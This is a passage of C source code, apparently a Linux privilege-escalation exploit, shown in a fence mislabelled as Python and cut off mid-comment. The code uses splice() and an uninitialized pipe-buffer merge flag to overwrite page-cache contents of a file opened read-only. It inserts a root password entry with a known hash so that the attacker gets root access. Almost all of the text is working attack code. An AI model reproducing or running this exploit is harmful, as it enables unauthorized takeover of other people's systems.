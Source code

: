 ```python
	loff_t offset = 4; // after the "root"
	const char *const data = ":$1$aaron$pIwpJwMMcozsUxAtRa85w.:0:0:test:/root:/bin/sh\n"; // openssl passwd -1 -salt aaron aaron 
        printf("Setting root password to \"aaron\"...\n");
	const size_t data_size = strlen(data);

	if (offset % PAGE_SIZE == 0) {
		fprintf(stderr, "Sorry, cannot start writing at a page boundary\n");
		return EXIT_FAILURE;
	}

	const loff_t next_page = (offset | (PAGE_SIZE - 1)) + 1;
	const loff_t end_offset = offset + (loff_t)data_size;
	if (end_offset > next_page) {
		fprintf(stderr, "Sorry, cannot write across a page boundary\n");
		return EXIT_FAILURE;
	}

	/* open the input file and validate the specified offset */
	const int fd = open(path, O_RDONLY); // yes, read-only! :-)
	if (fd < 0) {
		perror("open failed");
		return EXIT_FAILURE;
	}

	struct stat st;
	if (fstat(fd, &st)) {
		perror("stat failed");
		return EXIT_FAILURE;
	}

	if (offset > st.st_size) {
		fprintf(stderr, "Offset is not inside the file\n");
		return EXIT_FAILURE;
	}

	if (end_offset > st.st_size) {
		fprintf(stderr, "Sorry, cannot enlarge the file\n");
		return EXIT_FAILURE;
	}

	/* create the pipe with all flags initialized with
	   PIPE_BUF_FLAG_CAN_MERGE */
	int p[2];
	prepare_pipe(p);

	/* splice one byte from before the specified offset into the
	   pipe; this will add a reference to the page cache, but
	   since copy_page_to_iter_pipe() does not initialize the
	   "flags", PIPE_BUF_FLAG_CAN_MERGE is still set */
	--offset;
	ssize_t nbytes = splice(fd, &offset, p[1], NULL, 1, 0);
	if (nbytes < 0) {
		perror("splice failed");
		return EXIT_FAILURE;
	}
	if (nbytes == 0) {
		fprintf(stderr, "short splice\n");
		return EXIT_FAILURE;
	}

	/* the following write will not create a new pipe_buffer, but
	   will instead write into the page cache, because of the
```